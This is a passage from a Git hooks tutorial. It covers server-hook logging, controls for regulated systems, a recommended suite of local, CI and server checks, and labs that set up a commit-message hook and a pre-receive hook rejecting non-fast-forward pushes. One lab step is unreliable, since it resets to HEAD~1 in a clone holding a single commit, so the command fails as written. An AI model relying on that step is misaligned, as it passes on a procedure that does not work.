- write logs only when needed;
- avoid noisy success output.

For server hooks:

- log rejected ref;
- log user if available from server env;
- log old/new oid;
- log policy name;
- expose rejection reason to user;
- avoid leaking secrets in error output.

Example rejection:

```text
Rejected refs/heads/release/2.4:
Policy: release branches are fast-forward only.
Old: abc1234
New: def5678
Reason: old is not ancestor of new.
Remediation: create a new branch and open a release-fix PR.
```

---

## 46. Hooks for Regulated Systems

For regulated case-management/enforcement platforms, Git hooks can support evidence, but should not be the only evidence mechanism.

Useful policies:

| Need | Control |
|---|---|
| trace change to case/ticket | commit-msg/PR template + CI check |
| prevent direct production branch mutation | branch protection/server hook |
| immutable release tag | protected tag/server hook |
| prove artifact source | CI provenance from commit SHA/tag |
| detect unauthorized ref rewrite | server audit logs |
| preserve approval evidence | PR review system |
| block secret/config leak | scanner + pre-receive/CI |

Do not overfit commit hooks for compliance. Compliance evidence usually lives across Git history, PR system, CI logs, release artifacts, and deployment records.

---

## 47. Practical Hook Suite Blueprint

For a serious engineering team:

### Local hooks

- `pre-commit`: whitespace, formatter check, small staged lint, obvious secret scan.
- `commit-msg`: commit message structure, ticket/trailer hints.
- `pre-push`: warn/block accidental push to protected remote/branch, run targeted tests.

### CI checks

- full test suite;
- formatting/lint;
- generated files up-to-date;
- dependency/security scan;
- commit message policy if mandatory;
- release metadata/provenance checks.

### Server/platform

- protected main/release branches;
- required reviews/checks;
- no force push on protected refs;
- protected release tags;
- branch deletion restrictions;
- signed tag policy where required;
- merge queue if mainline race matters.

---

## 48. Lab: Create a Minimal Versioned Hook Setup

```bash
mkdir hooks-lab
cd hooks-lab
git init
mkdir .githooks

git config core.hooksPath .githooks

cat > .githooks/pre-commit <<'SH'
#!/usr/bin/env bash
set -euo pipefail

git diff --cached --check
SH

cat > .githooks/commit-msg <<'SH'
#!/usr/bin/env bash
set -euo pipefail

msg_file="$1"
subject=$(head -n1 "$msg_file")

if [ ${#subject} -gt 72 ]; then
  echo "Commit subject too long: ${#subject} chars" >&2
  exit 1
fi
SH

chmod +x .githooks/pre-commit .githooks/commit-msg

echo "hello" > README.md
git add README.md .githooks
git commit -m "Add hook lab"
```

Try whitespace failure:

```bash
printf 'bad trailing whitespace   \n' >> README.md
git add README.md
git commit -m "Test whitespace"
```

Observe hook rejection.

---

## 49. Lab: Simulate a Pre-Receive Hook

Create bare remote:

```bash
mkdir remote.git
cd remote.git
git init --bare
```

Add hook:

```bash
cat > hooks/pre-receive <<'SH'
#!/usr/bin/env bash
set -euo pipefail

zero=0000000000000000000000000000000000000000

while read -r old new ref; do
  case "$ref" in
    refs/heads/main)
      if [ "$old" != "$zero" ] && [ "$new" != "$zero" ]; then
        if ! git merge-base --is-ancestor "$old" "$new"; then
          echo "Rejected non-fast-forward update to main" >&2
          exit 1
        fi
      fi
      ;;
  esac
done
SH
chmod +x hooks/pre-receive
```

Clone and test:

```bash
cd ..
git clone remote.git work
cd work
echo a > a.txt
git add a.txt
git commit -m "Add a"
git branch -M main
git push origin main
```

Then try to rewrite and force push:

```bash
git reset --hard HEAD~1
echo b > b.txt
git add b.txt
git commit -m "Rewrite main"
git push --force origin main
```

The server hook should reject.

---

## 50. Top 1% Mental Model

Average Git users think:

> hooks are scripts that run before commit.

Strong engineers think:

> hooks are event-driven extension points in Git's local and remote state machine, with explicit trust boundaries.

The core distinction:

- local hooks optimize feedback;
- server hooks enforce admission;
- CI validates integrated behavior;
- branch protection governs collaboration;
- release pipeline proves artifact identity.

The invariant:

> Do not enforce critical shared repository policy only on machines you do not control.

Use hooks, but place each hook at the correct boundary.
